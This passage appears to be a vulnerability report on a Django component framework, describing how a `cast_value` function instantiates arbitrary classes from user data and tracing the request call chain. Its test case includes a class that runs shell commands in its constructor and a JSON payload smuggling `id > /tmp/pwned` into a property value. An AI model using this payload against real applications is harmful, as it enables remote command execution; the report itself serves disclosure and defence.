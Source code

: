   ```python
  def cast_value(type_hint, value):
      # ...
      for _type_hint in type_hints:
          # ...
          if _check_pydantic(_type_hint) or is_dataclass(_type_hint):
              value = _type_hint(**value)
              break

          value = _type_hint(value)
          break
  ```

  This directly uses the passed-in value to instantiate objects. While there is a check to avoid directly instantiating Django models:

  ```python
  if issubclass(_type_hint, Model):
      continue
  ```

  Other Python classes are instantiated without restriction. This means if a component has a property with a type hint pointing to a class with dangerous side effects in its constructor, an attacker could craft data to trigger those effects.

  The call chain typically flows from a user request through:
  1. The message view which processes the request
  2. `set_property_value` in `action_parsers/utils.py` which handles property updates
  3. `cast_attribute_value` in `typer.py` which applies type casting
  4. `cast_value` in `typer.py` which performs the actual instantiation

- **Security Test Case**:
  1. Create a component with a property type-hinted as a class with dangerous side effects:
     ```python
     class DangerousClass:
         def __init__(self, cmd=None):
             if cmd:
                 import subprocess
                 subprocess.run(cmd, shell=True)

     class VulnerableComponent(UnicornView):
         dangerous: DangerousClass = None
     ```
  2. Deploy the application and obtain a valid session with authentication
  3. Craft a payload to update the `dangerous` property:
     ```json
     {
       "data": {"dangerous": {"cmd": "id > /tmp/pwned"}},
       "checksum": "<valid_checksum>",
       "id": "<component_id>",
       "epoch": 123456789,
       "actionQueue": [
         {
           "type": "syncInput",
           "payload": {"name": "dangerous", "value": {"cmd": "id > /tmp/pwned"}}
         }
       ]
     }
     ```
  4. Send the payload to the `/message/vulnerable-component` endpoint
  5. Verify that the command was executed by checking for the existence of `/tmp/pwned`
